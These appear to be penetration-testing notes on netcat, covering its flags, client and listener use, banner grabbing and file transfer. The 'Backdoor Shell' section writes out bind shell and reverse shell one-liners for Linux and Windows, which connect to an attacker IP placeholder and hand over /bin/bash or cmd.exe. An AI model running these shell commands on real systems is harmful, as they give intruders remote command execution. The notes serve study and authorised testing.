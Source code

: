# Netcat

* TCP protocol
* no encryption for data transmitted

## netcat important parameters

> -l: Listen mode  
> -e: Program to execute after connection occurs  
> -n: Don't perform DNS lookups on names of machines on the other side  
> -v: verbose, printing out messages on Standard Error, such as when a connection occurs

## Basic usage

### Fundamental Client \(\#1\)

> nc \[ip address\] \[port\]

### Fundamental Listener \(\#2\)

> nc -l -p \[port\]

## Backdoor Shell

### Bind Shell

Bind shell is a type of shell in which the target machine opens up a communication port or a listener on the victim machine and waits for an incoming connection. The **attacker then connects to the victim** machine’s listener which then leads to code or command execution on the server.

![](https://github.com/wongkenny240/Penetration-Testing-Notes/tree/46f291a769efee2fa73a30a1e957eae1260ee5a5/assets/bind_shell.png)

#### netcat client \(\#1\) on **attacking machine** to access the shell

#### Command Execute on Victim Machine

#### Linux

> nc -l -p \[port\] -e /bin/bash

#### Windows

> C:&gt; nc -l -p \[port\] -e cmd.exe

### Reverse Shell

A reverse shell is a type of shell in which the target machine **communicates back** to the attacking machine. The attacking machine has a listener port on which it receives the connection, which by using, code or command execution is achieved.

![](https://github.com/wongkenny240/Penetration-Testing-Notes/tree/46f291a769efee2fa73a30a1e957eae1260ee5a5/assets/reverseshell.png)

#### netcat listener \(\#2\) on **attacking machine** to capture the shell

#### Command Execute on Victim Machine

#### Linux

> nc \[attacker ip\] \[attacker listen port\] -e /bin/bash

#### Windows

> C:&gt; nc \[attacker ip\] \[attacker listen port\] -e cmd.exe

## TCP Banner Grabbing

```text
echo "" | nc -v -n -w1 [IP Address] [Ports]
echo -e "HEAD / HTTP/1.0\n\n" | nc 192.168.2.22 80
```

## Transferring a File

### Push a file from client to listener

Receiving ends:

> nc -l -p \[port\] **&gt;** \[filename to be saved\]

Sending ends:

> nc -w3 \[ip address\] \[port\] **&lt;** \[file to be send\]

### Pull a file from listener back to client

File host:

> nc -l -p \[port\] &lt; \[file to be pulled\]

Pulling ends:

> nc -w3 \[ip address\] \[port\] **&gt;** \[file to be retrieve\]

